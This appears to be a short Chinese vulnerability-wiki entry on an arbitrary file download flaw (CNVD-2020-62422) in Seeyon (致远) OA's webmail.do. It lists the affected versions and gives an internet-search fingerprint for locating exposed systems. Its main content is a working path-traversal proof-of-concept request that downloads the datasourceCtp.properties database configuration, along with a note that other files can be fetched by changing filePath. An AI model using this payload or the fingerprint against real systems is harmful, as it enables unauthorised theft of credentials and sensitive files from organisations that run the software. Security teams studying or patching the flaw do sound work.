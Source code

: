 # 致远OA webmail.do 任意文件下载 CNVD-2020-62422

## 漏洞描述

致远OA存在任意文件下载漏洞，攻击者可利用该漏洞下载任意文件，获取敏感信息

## 漏洞影响

<a-checkbox checked>致远OA A6-V5</a-checkbox></br>

<a-checkbox checked>致远OA A8-V5</a-checkbox></br>

<a-checkbox checked>致远OA G6</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="致远互联-OA"</a-checkbox></br>

## 漏洞复现

验证POC

```php
/seeyon/webmail.do?method=doDownloadAtt&filename=test.txt&filePath=../conf/datasourceCtp.properties
```

在漏洞的OA 系统将会下载 `datasourceCtp.properties` 配置文件

![img](/assets/PeiQi-Wiki/img/zhiyuan-11.png)



更改参数 filePath 可下载其他文件